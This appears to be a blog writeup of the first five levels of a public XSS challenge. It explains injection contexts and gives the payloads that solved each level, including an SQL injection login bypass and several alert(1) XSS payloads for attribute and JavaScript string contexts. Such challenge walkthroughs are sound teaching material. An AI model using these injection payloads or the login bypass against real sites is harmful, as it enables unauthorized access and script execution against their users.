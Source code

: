 ```yaml
---
title: XSS introduction and multi-level challenge writeup.
published: true
author: Maciej Piechota
---
```


A few months ago I took place in multi-level XSS challenge organized by @haxel0rd and later was asked about explaining my solution. The challenge was divided into 10 levels with increasing difficulty. Almost each level was about exploiting different XSS context, which was great in terms of learning sake. I will describe each solution and some schematics behind them, so let's dive in.

## The challenge:

<center><twitter-widget class="twitter-tweet twitter-tweet-rendered" id="twitter-widget-0" style="position: static; visibility: visible; display: block; transform: rotate(0deg); max-width: 100%; width: 500px; min-width: 220px; margin-top: 10px; margin-bottom: 10px;" data-tweet-id="1116822993085325312"></twitter-widget>
  <blockquote class="twitter-tweet" data-link-color="#E95F28">
    <p lang="en" dir="ltr">Can you beat all 10 levels..?
#XSS #WAF #FilterEvasion #Challenge, from Beginner => Hard, pure XSS, no fantasy vectors. Will post first 7 solvers on my twitter. The challenge starts at login (no-xss), good luck. #Hacking #HackIt #CTF https://u.nu/hackit CodedBy: @ObscurityApp
        💪 <a href="https://t.co/VLSJ4mPZqy">pic.twitter.com/VLSJ4mPZqy</a></p>&mdash; haxel0rd (@haxel0rd) <a href="https://twitter.com/haxel0rd/status/1116822993085325312">April 12, 2019</a></blockquote>
</center>
<script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

Logging into the challenge was an entry obstacle itself. It was a simple SQL Injection - `admin' OR 1=1-- t` - did the job, bypassing the authentication.

## Brief XSS methodology:

To start exploiting XSS you first have to find out if and where our input is reflected on the attacked page(this is so-called `injection context`). Then, when we found that, we have to check what transformations are being made to our payload by the application, giving us the information how CSS/HTML/JavaScript sensitive characters are treated and what possibilities to inject malicious code are left unsecured. To do this in one request let's use an XSS probe:
`aaaaaa'">xsshere`
I type this to the interesting input field, submit, and check the response for `xsshere` string as shown in Lvl01 below.
The probe is sent via HTTP/S proxy like Burp and with opened Developer Console in browser to observe JavaScript errors.

## Lvl01:

By following the steps from “Brief XSS methology” we can see here that our probe broke the rendering of the HTML - this is usually a good sign for pentester and not that good for a developer :) You can read it as: some of the probe’s characters  are not properly encoded/escaped  before returning them to the client and therefore interpreted by a browser as a legit code, having an influence on the final look/JavaScript workflow of the page.

{% include figure.html file="/assets/lvl01.png" alt="/assets/lvl01.png" max-width="500px" number="1" caption="Localizing the injection context." %}
                                                                                                                                  
```html
<input type="text" class="form-control input-lg" id="search-church" id="xss" value='aaaaaa'">xsshere' name="xss" placeholder="xss">
```

`’` character closed an attribute, `>` closed the tag and the rest was rendered as text.

We have here `HTML attribute injection context`. The HTML attributes can be enclosed by characters: `'`, `"` or they can appear without anything - up to the first white character so injecting `'` will close the attribute and allow us to add a new one or just close HTML tag with `>` character. This happened in the example above - `input` tag was closed, so we can inject a new tag. To achieve our goal - execute `alert(1)` we have to inject `<script>alert(1)</script>`.

Final payload:

Add a dummy attribute value inside an input, close the attribute, close the input tag, add a script tag with JavaScript code.

`x'><script>alert(1)</script>` which translates to:

```html
<input type="text" class="form-control input-lg" id="search-church" id="xss" value='x'><script>alert(1)</script>' name="xss" placeholder="xss">
```

{% include figure.html file="/assets/alert.png" alt="/assets/alert.png" max-width="500px" number="2" caption="Profit." %}

## Lvl02:

In level 2, the probe from Lvl01 also ended up in the `HTML attribute context` but this time the `>` character is properly escaped to its HTML equivalent: `&gt;` which makes it hard to escape from the context but it doesn't mean we can't inject new attributes. To achieve our goal we have to use HTML events which as value takes JavaScript.

{% include figure.html file="/assets/lvl2.png" alt="/assets/lvl2.png" max-width="500px" number="3" caption="Level 02." %}

```html
<div class='aaaaaa'&quot;&gt;xsshere'>like Aldus PageMaker including versions of Lorem Ipsum.</div>
```
Solution:

`x' onmouseover=alert(1) x`

and this is how our payload looks in HTML:

```html
<div class='x' onmouseover=alert(1) x''>like Aldus PageMaker including versions of Lorem Ipsum.</div>
```
`alert(1)` will be executed after triggering the `onmouseover` event. It is important to take care of the last `'` character simply adding a dummy `x` attribute.

## Lvl03:

Sometimes the input to the application is passed via URL, we have to identify the parameters which are used in the JavaScript source code(static analysis).

{% include figure.html file="/assets/lvl3.png" alt="/assets/lvl3.png" max-width="500px" number="4" caption="Level 03." %}

`$('#hmmm').append("<li ${_text}>Hello world!</li>");`

the above line is vulnerable to XSS, again the `HTML attribute context` but we can't use any of interesting characters because of filtering:

```javascript
function escapeOutput(toOutput){
    return toOutput.replace(/\&/g, '&amp;')
        .replace(/\</g, '&lt;')
        .replace(/\>/g, '&gt;')
        .replace(/\"/g, '&quot;')
        .replace(/\'/g, '&#x27')
        .replace(/\//g, '&#x2F');
}
```

Luckily we do not have to use them. Browsers are so kind that they try to fix "mistakes" for us:

Payload:
`xss=onmouseover=alert(1)`

the value `alert(1)` of the event is automatically enclosed with `"` character.

{% include figure.html file="/assets/lvl3_1.png" alt="/assets/lvl3_1.png" max-width="500px" number="5" caption="Level 03 - Payload." %}

## Lvl04:

This level was solved with an unintended solution and introduces the next injection context - `JavaScript context`.

{% include figure.html file="/assets/lvl4.png" alt="/assets/lvl4.png" max-width="500px" number="6" caption="Level 04 - JavaScript context." %}

Developer console shows the following JavaScript error:

{% include figure.html file="/assets/lvl4_1.png" alt="/assets/lvl4_1.png" max-width="500px" number="7" caption="Level 04 - JavaScript error." %}

This tells us that the execution of the JavaScript was interrupted because of the injected payload. In a scenario like this we usually want to:

- Close all opened strings, parentheses, remember that the JavaScript before injection must be "satisfied".
- Add `;` as we want to start new instruction.
- alert(1)
- Deal with code that was there before injection making it as a comment with `//`.

Solution:
`xsshere'); alert(1)//`

Intended solution:

{% include figure.html file="/assets/lvl4_2.png" alt="/assets/lvl4_2.png" max-width="500px" number="8" caption="Level 04 - Intended solution." %}

## Lvl05:

This level is very similar to the previous one - we are once again in the `JavaScript context`.

{% include figure.html file="/assets/lvl5.png" alt="/assets/lvl5.png" max-width="500px" number="9" caption="Level 05 - JavaScript variable context." %}


```javascript
function escapeOutput(toOutput){
    return toOutput.replace(/\&/g, '&amp;')
        .replace(/\</g, '&lt;')
        .replace(/\>/g, '&gt;')
        .replace(/\"/g, '&quot;')
        .replace(/\'/g, '&#x27')
        .replace(/\//g, '&#x2F');
}

let input = `aaaaa'">xsshere`;
$("#hello-xss").append(`Nothing intresting found? Input = '${escapeOutput(input)}'`);
```

But there is a filter - we can't start a new `script` tag. There are three strings literals in JavaScript: `'`, `"` and `` ` ``. Following schematics from the previous level, we craft a payload like: ``xsshere ` ; alert(1)//`` and that is the solution for the last level in this part of writeup.




## TBC

The rest of 10 levels to be continued.

## Credits:

@haxel0rd


